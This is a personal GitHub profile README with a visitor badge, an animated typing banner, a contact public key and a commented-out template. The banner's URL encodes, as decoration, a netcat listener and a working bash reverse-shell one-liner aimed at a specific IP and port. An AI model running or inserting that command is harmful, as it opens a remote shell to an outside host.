 ### Hi there 👋
<img src="https://visitor-badge.glitch.me/badge?page_id=kIl3rr" /> 

[![Typing SVG](http://readme-typing-svg.herokuapp.com?size=12&duration=2000&color=389692&multiline=true&lines=%24+nc+-lnvp+2333;%24+%2Fbin%2Fbash+%3E%26+%2Fdev%2Ftcp%2F183.3.226.35%2F2333+0%3E%261)](https://git.io/typing-svg)
<div align=center>
<img src="https://user-images.githubusercontent.com/74661756/161088838-80944d50-ce3c-4b0f-8819-0b9e80c0cf7f.gif"/>
</div>

Feel free to contact me. It's a public key on some occasions you need.
```
-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEA1p3oqHfq9R5WH1MoupI4
vGDBuMhtw4zFSNZE8yG7HlmFSP0b+iMQWeHM6C5p5MNfIsG5BkZpGHMUaNIV6SW3
KySAUOi8MH1ASvpiI0ayWatKLIr1vhJXg6fK4sfc19Ql54qfKOtA4OuXYE5JBGvq
ORvjaDbE13fHS273Qi9qjSD9ZdRhGD5JLCrTVWg2PPmgwbnCjVbsZMUguQ1MatY9
rKRgMiwYQYOByHl5DeJ8cTZIg905mqEpmBX0/YENKqNca6eHjZjcu9tI9CgoI/0x
P6bxnkbsAn0tK/ZadohB+pxyVfbPAdT4zVjhDSnWSNfjai5eZM/lWHiPHkvnjcAy
ZehVr8YacZuqiCanfB9vtbsb6jk4Uu4Cv/Hw9naJf3br79py7oyDl46/HPnMxoa1
Nc5bkVHCPAi7hI/o64T9Au6OF+/MAdyFFjS7t9OdoMdqqkhdfFhst85cxiuiGR04
Jm66O0zp2MvTUbD68JHUEj9Mhe8sUxUTdEh8FnOlihLEwI/QtfErJHOxRGIw2S05
JNeOp6H5z07nVe7uxKxG4JhDmxgZIbP0ulKeqW7DVZy4JMX2FIS85vVcCDkhqS6l
vNm3eth5oP3RRP+Z0PYcyBJ+86xTKBILEh6fdfplLIaB5jcUf7+48/LLspyhLSmO
6N7g7AhRVwWtqioJ2FfGvZUCAwEAAQ==
-----END PUBLIC KEY-----
```

<!--
<div align="center"> <img height="137px" src="https://github-readme-stats.vercel.app/api?username=kIl3rr&theme=duck" /> </div>

<div align="center"> <img src="https://github-readme-stats.vercel.app/api/top-langs/?username=kIl3rr&theme=duck" /> </div>

**kIl3rr/kIl3rr** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
